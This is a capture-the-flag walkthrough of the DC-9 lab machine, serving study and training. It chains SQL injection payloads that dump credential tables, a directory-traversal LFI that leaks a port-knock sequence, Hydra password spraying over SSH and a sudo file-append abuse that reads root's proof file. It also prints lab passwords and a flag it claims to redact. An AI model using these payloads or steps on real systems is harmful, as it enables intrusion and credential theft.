






# DC-9

**Box info:** Difficulty: Intermediate · OS: Linux (Debian 10) · Focus: Union-based SQL injection, credential cracking, local file inclusion against a hardened firewall, port knocking, sudo wildcard/arbitrary-file-read abuse.

A "Staff Details" PHP application is vulnerable to classic union-based SQL injection in its search form. Two separate databases hand over two sets of credentials; the admin panel they unlock has its own local file inclusion bug, which is the only way to actually reach SSH — it's otherwise hidden behind port knocking. From there a restricted sudo rule that was only meant to print lines of a file is abused to read `proof.txt` directly as root.

---

## 1. Reconnaissance (nmap)

```bash
nmap -sC -sV -p- --min-rate=1000 -oA nmap/dc9 192.168.119.209
```

```text
PORT   STATE    SERVICE VERSION
22/tcp filtered ssh
80/tcp open     http    Apache httpd 2.4.38 ((Debian))
|_http-title: Example.com - Staff Details - Welcome
```

Port 22 shows as **filtered**, not closed — a strong hint that SSH is firewalled off rather than absent, and will need to be unlocked some other way later. For now, port 80 is the only usable entry point.



## 2. Enumeration — SQL injection in the search form

The "Search" feature takes a `search` POST parameter and reflects results back in a fixed-looking table, a strong candidate for SQL injection. A UNION probe against the 6-column layout confirms it:

```text
'+UNION+SELECT+1,2,3,4,5,6--+-
```

```text
ID: 1
Name: 2 3
Position: 4
Phone No: 5
Email: 6
```



### How union-based SQL injection works

A UNION-based injection appends a second, attacker-controlled `SELECT` statement onto the application's original query, using SQL's `UNION` operator to stack the two result sets into one response. It works mechanically like this:

1. **Break out of the intended query.** The `search` parameter is concatenated into a query such as `SELECT id, name, position, phone, email FROM Users WHERE name LIKE '%<search>%'`. Closing the quote and comment-terminating the rest of the original statement (`'...--+-`) lets an attacker supply a completely new clause after it.
2. **Match the column count.** `UNION` requires both `SELECT` statements to return the same number of columns (and compatible types), or the database rejects the query outright. The probe `UNION+SELECT+1,2,3,4,5,6` is a column-count oracle: trying 1, then 2, then 3... numbered placeholders until the query stops erroring and the numbers themselves are reflected in the output tells you exactly how many columns the original query selects — six, here, with each number landing in the page position its corresponding real column would have occupied (`ID: 1`, `Name: 2 3`, `Position: 4`, etc).
3. **Exfiltrate through those column slots.** Once the shape is known, any of those numbered placeholders can be replaced with real data instead of a literal number — including data from a completely different table than the one the query was written for. `information_schema` (MySQL's built-in metadata database) is queried first to walk from "what databases exist" down to "what tables and columns exist" and finally to "what rows are in them," all without ever touching the application's own intended query logic.

The technique only works because the application builds SQL by string concatenation instead of parameterized queries/prepared statements, so user input is never distinguished from SQL syntax.

With 6 injectable columns confirmed, the injection is walked up to pull schema names, table names, and finally data:

```sql
-- enumerate databases
'+UNION+SELECT+1,2,3,4,5,gRoUp_cOncaT(0x7c,schema_name,0x7c)+fRoM+information_schema.schemata--+-

-- enumerate tables in the current db
hello'+UNION+SELECT+1,2,3,4,5,gRoUp_cOncaT(0x7c,table_name,0x7c)+fRoM+information_schema.tables--+-

-- dump Staff.Users
hello'+UNION+SELECT+1,2,3,4,5,gRoUp_cOncaT(0x7c,Username,0x7c,Password,0x7c)+fRoM+Users--+-
```

```text
|admin|856f5de590ef37314e7c3bdf6f8a66dc|
```

`GROUP_CONCAT()` is used here purely as a convenience: it folds every row of a multi-row result into a single comma/pipe-delimited string, so an entire table can be exfiltrated through a single-row, six-column UNION response instead of needing one injection attempt per row.

A second, separate `users` database (unrelated to `Staff`) is also reachable from the same injection point and holds a much larger set of **plaintext** passwords:

```sql
hello'+UNION+SELECT+1,2,3,4,5,gRoUp_cOncaT(0x7c,Username,0x7c,Password,0x7c)+fRoM+users.UserDetails--+-
```

```text
|marym|3kfs86sfd|,|julied|468sfdfsd2|,|fredf|4sfd87sfd1|,|barneyr|RocksOff|,
|tomc|TC&TheBoyz|,|jerrym|B8m#48sd|,|wilmaf|Pebbles|,|bettyr|BamBam01|,
|chandlerb|UrAG0D!|,|joeyt|Passw0rd|,|rachelg|yN72#dsd|,|rossg|ILoveRachel|,
|monicag|3248dsds7s|,|phoebeb|smellycats|,|scoots|YR3BVxxxw87|,
|janitor|Ilovepeepee|,|janitor2|Hawaii-Five-0|
```

This matters beyond just "more credentials": the injection point reaches *across* databases on the same MySQL instance, not just within the `Staff` schema the vulnerable query was written against — a reminder that a database user's privileges, not the application's intended query scope, define the real blast radius of a SQL injection.

`sqlmap` against the same injection point confirms and automates the dump:

```bash
sqlmap -r sql.txt --batch --dump --technique=U -D users
```

The MD5 hash for `admin` cracks instantly against CrackStation:



```text
856f5de590ef37314e7c3bdf6f8a66dc → transorbital1
```

An unsalted MD5 hash of a short, non-random password is cracked almost instantly because MD5 is fast to compute (designed for checksums, not password storage) and CrackStation maintains precomputed lookup tables for the entire space of common passwords — there is no per-password salt here to force each hash to be attacked individually.

## 3. Foothold — admin LFI leaks the port-knock sequence

Logging into the admin panel (`admin:transorbital1`) unlocks extra menu items — **Manage**, **Add Record**, **Log Out**:



Both `manage.php` and `addrecorddb.php` take a `file` parameter to load a specific record source, which looks like a textbook local file inclusion candidate. Pointing it at `/etc/passwd` directly fails (the app only resolves relative paths), but a directory-traversal payload succeeds:

```text
http://192.168.172.209/addrecorddb.php?file=../../../../../../etc/passwd
```



### How the LFI works, and why it mattered here

**Local file inclusion (LFI)** happens when an application takes a filename or path from user input and passes it, with little or no validation, into a file-read or `include()`/`require()`-style operation on the server's own filesystem. Here, `manage.php?file=...` and `addrecorddb.php?file=...` were written to load one of a small, fixed set of record-source files relative to the application directory — a reasonable-looking design until the `file` parameter is tested with a value the developer never anticipated.

- A bare absolute path like `/etc/passwd` fails because the code prepends its own base directory to whatever `file` contains (e.g. `records/` . `$_GET['file']`), so the request actually resolves to something like `records//etc/passwd`, which doesn't exist.
- A **directory traversal** payload (`../../../../../../etc/passwd`) defeats that prefix: each `../` walks one directory up, and enough of them walk all the way past the application root and back down to the real filesystem root, landing on the real `/etc/passwd` regardless of what was prepended.
- The underlying flaw is the same one behind the SQL injection: user input is trusted to stay within the bounds the developer imagined, with no allow-list of filenames and no path-canonicalization check (e.g. rejecting any `file` value containing `..`).

Why this LFI specifically mattered: nmap had already shown SSH as **filtered** rather than closed or open, which on this box means a firewall rule is actively dropping unsolicited traffic to port 22 — it will not simply connect. The LFI is therefore not "a second way in," it is *the* way to find out how SSH gets unlocked at all, by reading the firewall's own configuration.

With arbitrary file read confirmed, the same LFI is pointed at the firewall configuration — since port 22 showed as *filtered* in the nmap scan, `knockd.conf` is the logical next target:

```text
http://192.168.172.209/manage.php?file=../../../../../../etc/knockd.conf
```



```text
[openSSH]
    sequence = 7469,8475,9842
    seq_timeout = 25
    command = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
```

### What port knocking is and why reading this file broke it

**Port knocking** is a technique for hiding a service behind a firewall that drops all traffic to it by default, only opening access for a client that first sends a specific, pre-agreed **sequence of connection attempts** to a set of otherwise-closed ports. A daemon (`knockd`) sniffs incoming packets; when it observes the exact configured sequence — in order, within the configured timeout — from a given source IP, it runs a command (typically an `iptables` rule) that opens the real service port for that IP. Done right, this means nothing about the open service is visible to a port scan: 22/tcp will show as `filtered` to everyone who has not first performed the correct knock.

The entire scheme's security rests on the knock sequence being a secret the firewall operator holds — exactly like a password. `/etc/knockd.conf`, the daemon's own configuration file, necessarily contains that sequence in plaintext (`sequence = 7469,8475,9842`) along with the exact command it runs once satisfied (here, an `iptables -I INPUT ... ACCEPT` rule scoped to the knocking IP, and only for port 22). Reading that file via the LFI is therefore not an incidental information leak — it hands over the entire "secret" the port-knocking defense depends on, collapsing it instantly from "unscannable, unreachable service" to "service reachable by anyone who sends three TCP packets in the right order."

That is the knock sequence that opens SSH. Knocking it and re-scanning confirms the port is now open:

```bash
for p in 7469 8475 9842; do nmap -Pn --host_timeout 201 --max-retries 0 -p $p 192.168.101.209; done
nmap -sC -sV -p 22 192.168.101.209
```

```text
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
```

Each `nmap -p <port>` connection attempt here *is* one knock — the sequence does not need a dedicated `knock` client, just three connection attempts arriving at `knockd` in the configured order and within its 25-second timeout window.

### Credential spraying

With SSH reachable, the plaintext passwords recovered from the second database are sprayed against the usernames from `/etc/passwd`:

```bash
hydra -L users.list -P pass.list 192.168.101.209 ssh
```

```text
[22][ssh] host: 192.168.101.209   login: chandlerb   password: UrAG0D!
[22][ssh] host: 192.168.101.209   login: joeyt       password: Passw0rd
[22][ssh] host: 192.168.101.209   login: janitor     password: Ilovepeepee
```

Logging in as `joeyt` and pivoting to `janitor` (same password) turns up a hidden `.secrets-for-putin` directory with a few more candidate passwords found "on post-it notes":

```bash
cat .secrets-for-putin/passwords-found-on-post-it-notes.txt
```

```text
BamBam01
Passw0rd
smellycats
P0Lic#10-4
B4-Tru3-001
4uGU5T-NiGHts
```

Re-running Hydra with this expanded password list finds a new, more useful account:

```bash
hydra -L users.list -P pass.list 192.168.101.209 ssh
```

```text
[22][ssh] host: 192.168.101.209   login: fredf   password: B4-Tru3-001
```

### User flag

```bash
ssh fredf@192.168.101.209
cat local.txt
```

```text
<LOCAL_REDACTED>
```

## 4. Privilege escalation

`fredf` has a narrow sudo rule for a custom binary:

```bash
sudo -l
```

```text
User fredf may run the following commands on dc-9:
    (root) NOPASSWD: /opt/devstuff/dist/test/test
```

```bash
sudo /opt/devstuff/dist/test/test --help
```

```text
Usage: python test.py read append
```

### How the sudo file-append privesc works

This sudo rule looks, at first glance, like a reasonably scoped privilege: `fredf` can run exactly one binary (not a shell, not an interpreter, not `ALL`), and that binary's own `--help` output describes a narrow, apparently harmless job — append the contents of one file onto another. The flaw is what is missing from the rule and from the tool itself:

- **No restriction on either file argument.** The sudoers entry grants `NOPASSWD: /opt/devstuff/dist/test/test` with no fixed arguments, so `fredf` can supply *any* two paths as `read` and `append`, not just ones the administrator intended.
- **The tool runs as root.** Because the sudoers rule's target is `(root)`, the binary opens and reads whatever `read` path is given with root's filesystem permissions — regardless of whether `fredf` himself is allowed to read that file directly.
- **"Append," not "print," is still disclosure.** The tool does not need to print anything to the terminal to leak data: it writes the contents of the root-only-readable source file into a destination file that `fredf` owns and can read freely (`two.txt`, created with `touch` beforehand so it is writable by `fredf`). The root process does the one thing `fredf` cannot do himself — read `/root/proof.txt` — and the sudo rule's scoping was never designed to stop him pointing that capability at an arbitrary target.

This is the general pattern behind most "restricted sudo binary" privilege escalations: a tool that performs file I/O as root, combined with a sudo rule that restricts *which program* runs but not *which files it touches*, is equivalent to granting arbitrary-file-read (or write) as root. The fix is not to trust the binary's advertised intent, but to either drop the capability entirely or have the sudoers rule pin exact, non-attacker-controlled arguments.

The tool is meant to append the contents of one file onto another, running as root with no path restriction on either argument — which means it can be pointed at a file the invoking user has no permission to read directly, such as `/root/proof.txt`:

```bash
touch two.txt
sudo /opt/devstuff/dist/test/test /root/proof.txt two.txt
cat two.txt
```

## 5. Root / proof.txt

```text
8cd7a5b17e7efd4affc36fdea8305712
```

(redacted here as `<PROOF_REDACTED>`) — the content of `two.txt` is the root-owned `proof.txt`, read into a world-readable file by the root-executed `test` binary, without ever obtaining an interactive root shell.

---

## Takeaway

DC-9 chains three distinct, low-severity-looking bugs into full compromise: SQL injection for credentials, an admin-only LFI that was the *only* way to see the firewall's port-knock secret, and a "harmless" file-append utility that becomes an arbitrary-file-read-as-root primitive once wrapped in a NOPASSWD sudo rule. Each step alone looks survivable; chained together they are not.
